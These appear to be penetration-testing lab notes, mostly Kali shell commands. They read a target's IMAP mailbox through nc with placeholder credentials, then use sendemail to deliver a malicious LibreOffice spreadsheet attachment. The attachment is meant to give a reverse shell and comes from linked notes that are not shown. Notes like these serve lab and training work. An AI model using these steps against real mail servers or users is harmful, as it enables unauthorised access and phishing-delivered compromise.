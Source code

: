 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Reading emails
```bash - kali
nc $TARGET 143
```

```bash - kali
tag login $USER@localhost $PASSWORD
```

```bash - kali
tag LIST "" "*"
```

```bash - kali
tag SELECT INBOX
```

Notice there are 5 total messages.

```bash - kali
tag STATUS INBOX (MESSAGES)
```

```bash - kali
tag fetch 1 (BODY[1])
```

We can read the rest of the messages with the following command:

```bash - kali
tag fetch 2:5 BODY[HEADER] BODY[1]
```

#### Send malicious email

Below, we are sending a malicious email with attachments from:
[[0._Reverse shells (WEB)#odt LibreOffice]]
OR
[[0._Reverse shells (WEB)#hta - ods LibreOffice]]

![[rlwrap]]

```bash - kali
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s $TARGET:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a calc.ods
```




